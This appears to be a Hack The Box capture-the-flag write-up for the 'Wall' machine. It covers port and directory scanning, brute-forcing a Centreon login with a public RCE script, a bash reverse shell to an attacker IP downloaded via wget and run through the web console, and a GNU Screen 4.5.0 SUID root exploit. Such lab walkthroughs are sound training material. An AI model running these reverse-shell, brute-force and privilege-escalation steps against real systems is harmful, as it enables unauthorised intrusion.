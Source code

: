```yaml
---
layout: post
title: Wall (10.10.10.157) Writeup
description: >
  Hackthebox Wall Writeup
image: /assets/img/wall.png
noindex: true
---
```


<center><h3>Summary</h3></center>

- Use <b>curl</b> to perform a <b>POST</b> request to reveal a hidden directory
- Bruteforce the login credentials using <b>bash</b> and a <b>python</b> script
- Use the web interface to execute commands on the System to gain a reverse shell
- Exploit <b>GNU Screen 4.5.0</b> to get a root shell
<br>

First start with an Nmap Scan

```
# Nmap 7.80 scan initiated Fri Sep 20 15:45:55 2019 as: nmap -sV -sC -p- 10.10.10.157
Nmap scan report for 10.10.10.157
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 15:46:43 2019 -- 1 IP address (1 host up) scanned in 47.73 seconds
```
Only 2 ports open. Lets start with port 80. Navigating to <b>http://10.10.10.157</b> I are greeted with an apache default installation

![home.png](../../resources/adb482f4ab6e4149a0ad7f07ba13e679.png)

Next I performed a <b>gobuster</b>. It only spit out a few results.
```
# gobuster dir -u http://10.10.10.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.157
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/09/21 18:48:24 Starting gobuster
===============================================================
/aa.php (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
```
Checking out each result yields not much that can help me. Only the <b>monitoring</b> seemed useful since it prompts us for a Username and Password to log in with. I tried guessing the credentials but had no luck so I moved on.

![monitoring.png](../../resources/d44511721b4a41d19b370711401e1206.png)

Next I did a basic <b>Nikto</b> scan to see what it would pick up. Nothing amazing was found but it did tell me which <b>HTTP Methods</b> are alloId

```
# nikto -h http://10.10.10.157
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.157
+ Target Hostname:    10.10.10.157
+ Target Port:        80
+ Start Time:         2019-09-21 18:52:22 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 58cb1080cb0d2, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ AlloId HTTP Methods: OPTIONS, HEAD, GET, POST
+ 7863 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-09-21 19:00:56 (GMT-4) (514 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Using this info I used <b>curl</b> to send requests to each result from <b>gobuster</b>. Eventually I found something. Sending a <b>POST</b> request to <b>http://10.10.10.157/monitoring/</b> reveals another directory <b>/centreon</b>.
```
# curl -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>I should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
Navigating to <b>http://10.10.10.157/centreon</b> I are greeted with a login page. It is running Centreon v19.04

![login.png](../../resources/20a8fe81bb51454abfce84ebe0fd050b.png)

Doing a quick google search will reveal a *[RCE exploit](https://www.exploit-db.com/exploits/47069)* for this version of <b>centreon</b>.

![rce.png](../../resources/b09073c95e5c45b7a275419d605626b9.png)

The problem with this exploit is that it requires user credentials to work so first I decided to combine a bash script with this python script to bruteforce the login credentials. I used <b>admin</b> as the username.

<b>Bash Script</b>
```
cat /usr/share/wordlists/rockyou.txt | while read line; do python3 47069.py http://10.10.10.157/centreon admin $line 10.10.14.21 10001;sleep 0.5; echo password=$line; done
```
After letting that run for a bit I see that it tells us the password is <b>password1</b>
```
[+] Login token is : 2616bdbc1dddb74f1cbe25dd638be366                                                        
[+] Logged In Sucssfully                                                                                     
[+] Retrieving Poller token                                                                                  
47069.py:56: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for
 this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a diff
erent virtual environment, it may use a different parser and behave differently.                             

The code that caused this warning is on line 56 of the file 47069.py. To get rid of this warning, pass the ad
ditional argument 'features="lxml"' to the BeautifulSoup constructor.                                        

  poller_soup = BeautifulSoup(poller_html)                                                                   
[+] Poller token is : 1362243211de62f028c5350e4782ddc4                                                       
[+] Injecting Done, triggering the payload                                                                   
[+] Check your netcat listener !                                                                             
password=password1
```
For some reason I couldn't get the RCE to work and open up a reverse shell for me so I had to find another way. I did this by logging into the <b>centreon</b> web app using the credentials I brute forced. I then navigated to <b>Configuration > Commands > Miscellaneous</b> where you will see this.

![command.png](../../resources/2aa3711c1d8d4a09bab0ba1103822e1e.png)

Now to get my reverse shell I was unable to just type a <b>nc</b> command into the box to connect back to me, I had to do an extra step. First I created a bash script file on my kali machine that contains the command for the reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.21/10000 0>&1
```

I then used <b>wget</b> from the web console combined with a <b>python SimpleHTTPServer</b> to download the file onto the box. Hit the small blue button to execute the command.

![wget.png](../../resources/7141b4ca40694e6e9eebcce329779ffc.png)

If done correctly you should see the file get downloaded from the <b>python SimpleHTTPServer</b>
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.157 - - [21/Sep/2019 20:07:41] "GET /shell.sh HTTP/1.1" 200 -
```

Now with the file on the system, I can see up our reverse listener
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```
And to trigger the shell just go back to the web console and execute the command <b>bash shell.sh</b>.

![execute.png](../../resources/61bb19e311ee4e0f95d37bd2f80b803c.png)

If everything works you should see a shell spawn
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.157.
Ncat: Connection from 10.10.10.157:52120.
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

Now the <b>user.txt</b> file is stored in <b>/home/shelby/</b> but I dont have the permissions to read it. Doing some quick manual enumeration did result in me finding much so I decided to use the <b>LinEnum.sh</b> script. I copied the script over to the box using the same method as <b>shell.sh</b> but this time I executed <b>wget</b> from the command line inside the shell.

Reading through the output of the script, there is and <b>SUID</b> file that stands out.
```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
A quick google search will reveal *[this](https://www.exploit-db.com/exploits/41154)* exploit. I once again copied the exploit over to the box using the same method. I then run the exploit and instantly become the root user. I run a <b>whoami</b> to confirm this. From here you can just grab both the user and root flags
```
$ bash screenroot.sh
bash screenroot.sh
~ gnu/screenroot ~
[+] First, I create our shell and library...
[+] Now I create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```

